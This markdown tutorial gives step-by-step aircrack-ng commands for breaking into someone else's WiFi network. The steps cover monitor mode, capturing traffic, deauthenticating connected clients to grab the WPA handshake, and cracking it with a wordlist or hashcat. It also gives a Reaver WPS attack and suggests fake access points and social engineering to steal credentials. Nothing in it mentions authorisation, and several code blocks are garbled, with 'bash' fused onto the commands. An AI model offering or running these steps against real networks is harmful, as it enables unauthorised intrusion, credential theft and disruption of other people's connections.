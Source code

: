 # how to hack a wifi network and get its password without brute forcing?
## step 1: Understand the Basics
Before attempting to hack a WiFi network, it's essential to understand how WiFi security works.
open the terminal and type the following command to check your wireless interfaces:
```bash
iwconfig
```
This command will display a list of your wireless interfaces. Look for an interface that starts with "wlan" (e.g., wlan0, wlan1).

## step 2: Put Your Wireless Interface into Monitor Mode
- how to put your wireless interface into monitor mode:
```bash
sudo airmon-ng start wlan0
```
Replace `wlan0` with your wireless interface name. This command will create a new interface

## step 3: Capture WiFi Traffic
- how to capture WiFi traffic:
```bash
sudo airodump-ng wlan0mon
```
This command will display a list of nearby WiFi networks. Note the BSSID (MAC address) and channel (CH) of the target network you want to hack.

## step 4: Focus on the Target Network
- how to focus on the target network:
```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0mon
```
Replace `<BSSID>` with the target network's BSSID and `<channel>` with its channel number. The `-w capture` option will save the captured packets to a file named "capture".

## step 5: Deauthenticate a Connected Client
- how to deauthenticate a connected client:
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client_MAC> wlan0mon
```
Replace `<BSSID>` with the target network's BSSID and `<Client_MAC>` with the MAC address of a connected client. This command will send deauthentication packets to the client, forcing it to reconnect and capture the handshake.

## step 6: Crack the WPA/WPA2 Handshake
- how to crack the WPA/WPA2 handshake:
```bash
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap
```
Replace `/path/to/wordlist.txt` with the path to a wordlist file (a list of potential passwords) and `<BSSID>` with the target network's BSSID. The `capture-01.cap` is the file generated in step 4.

## alternative to step 6: cracking the handshake without using wordlist.txt
- to crack the WPA/WPA2 handshake without using a wordlist, you can use a tool like Hashcat or John the Ripper. These tools can perform brute-force attacks or use other techniques to guess the password.
- using Hashcat:
```bashhashcat -m 2500 capture.hccapx /path/to/rules.txt
```
Replace `capture.hccapx` with the converted handshake file and `/path/to/rules.txt` with the path to a rules file that defines how to modify potential passwords.

## example of rules.txt
```
# Example rules for Hashcat
# This rule set will try common variations of passwords
:
l l
u u
d d
s s
```
where l, u, d, and s represent lowercase, uppercase, digit, and special character transformations respectively.

## step 7: Analyze the Results
- After running the cracking tool, check the output for the recovered password. If successful, you will see the password displayed in the terminal.

## without using a wordlist or brute forcing
- If you want to hack a WiFi network without using a wordlist or brute forcing, you can try the following methods:
1. **WPS Attack**: If the target network has WPS (Wi-Fi Protected Setup) enabled, you can use tools like `Reaver` or `Bully` to exploit vulnerabilities in WPS and retrieve the password.
   ```bashsudo reaver -i wlan0mon -b <BSSID> -vv
   ```
   Replace `<BSSID>` with the target network's BSSID.
2. **Social Engineering**: Sometimes, the easiest way to get a WiFi password is to ask the network owner directly or use social engineering techniques to trick them into revealing it.
3. **Phishing**: Create a fake WiFi access point that mimics the target network and trick users into connecting to it. Once connected, you can capture their credentials.
4. **Exploiting Vulnerabilities**: Look for known vulnerabilities in the router's firmware or configuration that can be exploited to gain access to the network.

# installing airmon on arch linux:
## step 1: Update your system
```bashsudo pacman -Syu
```
## step 2: Install aircrack-ng package
```bashsudo pacman -S aircrack-ng
```
## step 3: Verify the installation
```bashairmon-ng --help
```
